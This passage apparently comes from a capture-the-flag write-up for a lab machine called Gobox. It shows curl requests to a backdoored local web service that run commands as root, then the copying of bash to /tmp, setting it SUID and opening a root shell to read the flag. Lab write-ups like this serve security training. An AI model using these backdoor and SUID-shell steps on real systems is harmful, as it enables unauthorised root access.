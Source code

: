 That looks too similar to `system.run` to not be it.

### Execute via Backdoor

Trying again with the new argument name works:

```

www-data@gobox:~$ curl http://127.0.0.1:8000?ippsec.run[id]
uid=0(root) gid=0(root) groups=0(root)

```

Typically to save myself having to url-encode, I would switch to a GET (`-G`) with `--data-urlencode`, but the issue here is that I don’t want to encode the `[]`.

Still, I can do it myself:

```

www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[ls%20%2froot]'
iptables.sh
snap

```

To get shell, I’ll copy Bash into `tmp`:

```

www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[cp%20%2fbin%2fbash%20%2ftmp]'
curl: (52) Empty reply from server
www-data@gobox:~$ ls -l /tmp/bash
-rwxr-xr-x 1 root root 1183448 Aug 26 19:38 /tmp/bash

```

Now `chmod` to set it as SUID:

```

www-data@gobox:~$ curl 'http://127.0.0.1:8000?ippsec.run[chmod%204777%20%2ftmp%2fbash]'      
curl: (52) Empty reply from server
www-data@gobox:~$ ls -l /tmp/bash
-rwsrwxrwx 1 root root 1183448 Aug 26 19:38 /tmp/bash

```

Notice the `s` as the forth letter there. Running it with `-p` will preserve privilege:

```

www-data@gobox:~$ /tmp/bash -p
bash-5.0#

```

And I can get the last flag:

```

bash-5.0# cat /root/root.txt
81d35170************************

```